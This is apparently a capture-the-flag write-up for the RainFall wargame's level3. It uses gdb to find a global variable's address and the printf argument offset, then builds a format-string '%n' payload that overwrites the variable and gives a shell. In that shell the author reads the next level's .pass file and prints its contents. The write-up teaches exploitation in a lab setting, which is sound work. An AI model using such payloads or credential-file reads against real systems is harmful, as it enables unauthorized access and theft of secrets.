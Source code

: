 ## Find the addess of m to change his value

In the asm we can see `0x80484e2 <v+62>        jne    0x8048518 <v+116>`, we check

```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
> yes, we got the address &m = 0x804988c

## Find the address of the buffer / printf arguement

```sh
(gdb)
AAAA
0x080484cc in v ()
(gdb) x/80x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
0xbffff560:     0x00000098      0x0000000b      0x00000000      0x00000000
0xbffff570:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff580:     0x00000000      0xb7fe765d      0xb7e3ebaf      0x080482bb
0xbffff590:     0x00000000      0x00000000      0x00000000      0xb7fe749f
0xbffff5a0:     0xb7fd5000      0x00000002      0x08048268      0xb7fffc00
0xbffff5b0:     0xb7ffeff4      0xb7ffeff4      0xb7e2fc30      0x00000001
0xbffff5c0:     0xb7fdcb18      0xb7fe7cac      0x00000000      0x00000000
0xbffff5d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5e0:     0x00000000      0xb7fdcb18      0x00000000      0x00000000
0xbffff5f0:     0x00000000      0x00000003      0xf63d4e2e      0x000003f3
0xbffff600:     0x00000000      0xb7e38938      0xb7fffe78      0xb7ff9d5c
0xbffff610:     0xb7e2fe38      0x00000000      0x00000000      0xb7e5d58d
0xbffff620:     0x00000000      0x00000000      0x00000001      0x000008b0
0xbffff630:     0xb7fdcb48      0xb7fdc858      0x080482a9      0xb7e39158
0xbffff640:     0x08048218      0x00000001      0xb7ec36c0      0xb7ec3996
(gdb) x/s $esp + 16
0xbffff520:      "AAAA\n"
```

But printf read chars to 4bites 16 / 4 = 4

```sh
level3@RainFall:~$ ./level3
%4$p
0x70243425
```
> 0x70243425 = ?p$4%, so we got it

## Exploit

```sh
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%59x' + '\%4\$n')"; cat) | ./level3
��                                                        200\
Wait what?!
ls
ls: cannot open directory .: Permission denied
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

%n write to the specified argument the size of the string before the %n so we write the address to modify to set it on the stack and then we writing the length into the argument at the offset 4
